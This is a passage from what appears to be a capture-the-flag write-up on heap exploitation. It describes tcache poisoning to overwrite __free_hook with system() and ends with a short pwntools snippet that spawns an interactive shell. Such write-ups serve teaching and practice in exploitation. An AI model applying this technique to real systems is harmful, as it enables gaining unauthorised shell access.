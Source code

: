     Keep freeing and allocating until the next `malloc(0x30)` call will coincide with the start of the chunk for `hashtable[1]`. Overwrite `hashtable[1]->fd` to become `__free_hook`.

4. A future `tcache` allocation will overwrite `__free_hook`. Write `system()` and call `"/bin/sh"`.

   ```c
   add(hash_to_str(0xb), b'\n')
   add(hash_to_str(0xb), pack(context.libc.sym.system))
   delete(0xf)
   r.interactive()
   ```

That's it.

